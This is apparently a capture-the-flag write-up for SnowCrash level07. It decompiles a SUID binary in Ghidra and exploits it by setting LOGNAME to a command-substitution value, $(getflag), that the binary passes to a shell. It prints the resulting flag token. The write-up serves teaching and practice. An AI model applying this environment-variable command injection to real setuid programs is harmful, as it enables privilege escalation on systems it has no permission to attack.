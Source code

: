 - The binary `level07` at `/home/user/level07` has SUID set as flag07

```
evel07@SnowCrash:~$ pwd
/home/user/level07
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile

```

- Executing the binary simply outputs `level07` to screen

```
level07@SnowCrash:~$ ./level07 
level07
```

- Ex-filtrate the binary to the attack machine and launch `ghidra` to de-compile the binary and examine the code
```
┌──(kali㉿kali)-[~/Desktop/snowcrash]
└─$ sudo ghidra level07
```

![[Pasted image 20250914040555.png]]

- In the code the variable pcVar1 is obtained from the environment variable `LOGNAME` and passed into the `asprintf` function as a string. This is confirmed by inspecting the `LOGNAME`  environment variable 

```
level07@SnowCrash:~$ env
<snip>
LOGNAME=level07
<snip>
```

- We can amend the environment variable `LOGNAME` to inject a command into the code which will be passed into the `asprintf` function. The `LOGNAME` will be instructed to execute `getflag` command.

```
level07@SnowCrash:~$ export LOGNAME=\$\(getflag\)
level07@SnowCrash:~$ echo $LOGNAME
$(getflag)
```

- Relaunch binary with the new environment variable to obtain the flag

```
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

- Authenticate to `level08` with the token

```
level07@SnowCrash:~$ su level08
Password: 
level08@SnowCrash:~$ 
```
